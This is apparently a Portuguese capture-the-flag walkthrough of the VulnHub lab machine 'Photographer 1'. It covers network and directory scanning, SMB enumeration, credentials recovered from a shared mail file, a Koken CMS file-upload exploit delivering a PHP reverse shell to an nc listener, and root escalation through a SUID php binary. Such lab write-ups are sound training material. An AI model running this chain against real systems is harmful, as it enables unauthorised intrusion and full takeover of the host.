



# Photographer 1
----------------
## Introdução
Nessa máquina exploraremos uma enumeração simples a partir de uma escalação
de privilégios horizontal, algo semelhante a atacar um servidor em uma rede
em comum.
Para conseguir acesso à máquina é existe uma imagem ova em 
[Photographer 1](https://www.vulnhub.com/entry/photographer-1,519/).
## Reconhecimento
Antes de mais nada é necessário descobrir o IP da máquina alvo, tendo como base
a rede 192.168.0.0/24 realizando um scanning simples com:
```
$ nmap -sP 192.168.0.0/24 -oN ip_numbers

Nmap scan report for 192.168.0.1
Host is up (0.0046s latency).
... output supressed
Nmap scan report for 192.168.0.24
Host is up (0.0012s latency).
Nmap done: 256 IP addresses (10 hosts up) scanned in 4.38 seconds
```
Pela minha experiência, e pela forma no que eu conheço os IPs são distribuídos
na minha rede, eu sei que a máquina alvo é a com sufixo 24, mas se
necessário é bom realizar mais uma série de scanners nas máquinas da rede e
saber qual a máquina correta.  
Agora devemos encontrar quais serviços estão rodando na máquina alvo e podemos
explorar:
```
$ nmap -sV 192.168.0.24 -oN target_services

Nmap scan report for 192.168.0.24
Host is up (0.0041s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: PHOTOGRAPHER
```
Nesse scanning descobrimos que existem dois servidores web rodando um na porta
80 outro na porta 8000. Também percebemos que existe um servidor Samba rodando
nas portas 139 e 445; uma pesquisa simples na 
[Wikipedia](https://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers#cite_note-rfc1001-68)
percebemos que a porta 139 geralmente é utilizada para o o serviço de sessão do
NetBios, e que a porta 445 normalmente é utilizada para o
Microsoft-DS(Directory Services) tanto para o diretório ativo(Active Directory)
de compartilhamento de máquinas Windows; como para o compartilhamento de
arquivos via SMB.  
Dito isso, é possível fazer scannings mais aprofundados(e por sua vez
agressivos) com nmap utilizando scripts de reconhecimento de smb, scanning de
TCP/SYN(-sS), etc... Mas isso é algo que demanda tempo especialmente se rodar
todos os scripts de smb de uma vez, e tão pouco é necessário para resolver a
máquina.  
Agora vamos acessar o primeiro site no nosso navegador, é um site extremamente
bem feito para uma máquina a ser explorada, mas que a primeira vista não tem
nenhum entry-point muito claro.  

Então vamos olhar o outro website na porta 8000, e tampouco parece algo
explorável a primeira vista.  

Vamos tentar encontrar outros diretórios nos sites com o dirsearch, ou qualquer
brute-forcer de diretórios da sua preferência, utilizarei uma wordlist do
seclists:
```
$ python3 dirsearch/dirsearch.py \
    -e http \
    -w SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt\
    -u http://192.168.0.24:8000


 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions:  | HTTP method: GET | Suffixes: http | Threads: 10 | Wordlist size: 220521 | Request count: 220521

... output supressed
[14:18:53] Starting:
[14:18:53] 200 -    5KB - /
[14:18:54] 301 -  319B  - /admin  ->  http://192.168.0.24:8000/admin/
[14:18:54] 301 -  321B  - /storage  ->  http://192.168.0.24:8000/storage/
[14:18:55] 301 -  317B  - /app  ->  http://192.168.0.24:8000/app/
[14:18:57] 301 -    0B  - /http  ->  /http/
[14:20:26] 301 -    0B  - /ntlmhttp  ->  /ntlmhttp/
[14:22:45] 403 -  279B  - /server-status
[14:23:23] 302 -    0B  - /27079%5Fclassicpeople2%2Ejpg  ->  /error/404/
[14:24:52] 302 -    0B  - /tiki%2Epng  ->  /error/404/
[14:24:58] 302 -    0B  - /How_to%2e%2e%2e  ->  /error/404/
[14:24:58] 302 -    0B  - /Wanted%2e%2e%2e  ->  /error/404/
[14:25:03] 301 -    0B  - /dom_http  ->  /dom_http/
[14:25:04] 301 -    0B  - /Mainhttp  ->  /Mainhttp/
[14:25:11] 301 -    0B  - /shttp  ->  /shttp/
[14:25:47] 302 -    0B  - /squishdot_rss10%2Etxt  ->  /error/404/
[14:25:49] 302 -    0B  - /b33p%2Ehtml  ->  /error/404/

Task Completed
```
O servidor na porta 80 não mostrou nada muito interessante, já o servidor na
porta 8000 mostra algumas páginas interessantes, em particular /admin, /storage
e /app. Acessando essas páginas percebe-se que apenas /admin é passível de ser
acessada por usuário comum, revelando uma administração a partir do Koken CMS.  

Vamos aumentar enumerar a máquina com o enum4linux para tentar encontrar
credenciais para o servidor Samba:
```
$ enum4linux -a 192.168.0.24

Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Aug 11 14:52:16 2020

 ==========================
|    Target Information    |
 ==========================
Target ........... 192.168.0.24
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

... output supressed

 =========================================
|    Share Enumeration on 192.168.0.24    |
 =========================================
Unable to initialize messaging context

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	sambashare      Disk      Samba on Ubuntu
	IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
... output supressed

[+] Attempting to map shares on 192.168.0.24
//192.168.0.24/print$	Mapping: DENIED, Listing: N/A
//192.168.0.24/sambashare	Mapping: OK, Listing: OK
//192.168.0.24/IPC$	[E] Can't understand response:
Unable to initialize messaging context
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*

... output supressed
```
Como o enum4linux é extremamente verboso optei por deixar apenas as partes que
nos interessam tal como os sharenames e os usuários conhecidos. Agora
finalmente chegou a hora de fazer contato com o alvo.

## Exploração
Bom, a primeira coisa que nós podemos fazer é verificar o que existe no
servidor Samba já que podemos acessá-lo sem fazer autenticação:
```
$ smbclient //192.168.0.24/sambashare
Unable to initialize messaging context
Enter WORKGROUP\lcr's password:
Try "help" to get a list of possible commands.
smb: \> l
  .                                   D        0  Mon Jul 20 22:30:07 2020
  ..                                  D        0  Tue Jul 21 06:44:25 2020
  mailsent.txt                        N      503  Mon Jul 20 22:29:40 2020
  wordpress.bkp.zip                   N 13930308  Mon Jul 20 22:22:23 2020

		278627392 blocks of size 1024. 264268400 blocks available
smb: \> more mailsent.txt

Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
... output supressed
To: Daisa Ahomi <daisa@photographer.com>
... output supressed

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```
Entramos no servidor, e encontramos o e-mail mailsent.txt que por sua vez nos
dão uma ideia das credenciais do CMS, no caso o:  
usuário - daisa@photographer.com  
senha - babygirl  

Agora que temos acesso ao CMS podemos tentar explorar vulnerabilidades no CMS.
Primeiro procuramos por uma entrada no searchsploit:
```
$ searchsploit "Koken"

---------------------------------------- ---------------------------------
 Exploit Title                          |  Path
---------------------------------------- ---------------------------------
Koken CMS 0.22.24 - Arbitrary File Uplo | php/webapps/48706.txt
---------------------------------------- ---------------------------------
```
Se desejar dê uma olhada em como a vulnerabilidade funciona, mas basicamente
devemos criar um shell reverso e enviar como uma imagem e depois em um proxy
tal como o Burp Suite ou o Zapproxy alterar a requisição para uma extensão
".php". Para tanto vou utilizar um dos shell 
[reversos padrões do Kali linux](https://gitlab.com/kalilinux/packages/webshells/-/blob/kali/master/php/php-reverse-shell.php)
e abrir uma porta na minha máquina para escutar tal conexão com:
```bash
$ nc -lvnp 12345
listening on [any] 12345 ...
```
Não se esqueça de alterar o ip e a porta no shell reverso para a sua situação.
Após conseguirmos uma conexão, você notará que estamos em um shell bem difícil
de se trabalhar pois não temos tab-completion e uma série de teclas não
funciona tal como o backspace. Para melhorar isso basta digitar:
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```
Bom agora devemos descobrir qual usuário nós somos e se nós conseguimos
descobrir alguma flag.
```bash
$ whoami
www-data
$ find / -name "user.txt" -o -name "proof.txt" 2> /dev/null
/home/daisa/user.txt
```
Nós temos acesso a primeira flag, mas não à segunda, para conseguir acessar
"proof.txt" será necessário realizar uma escalação de privilégios. Como sabemos
que o sistema roda php podemos utilizá-lo para virar root.
```bash
$ CMD="/bin/sh" /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami
root
```
E agora conseguimos acesso total à máquina. E podemos ler o arquivo
/root/proof.txt.

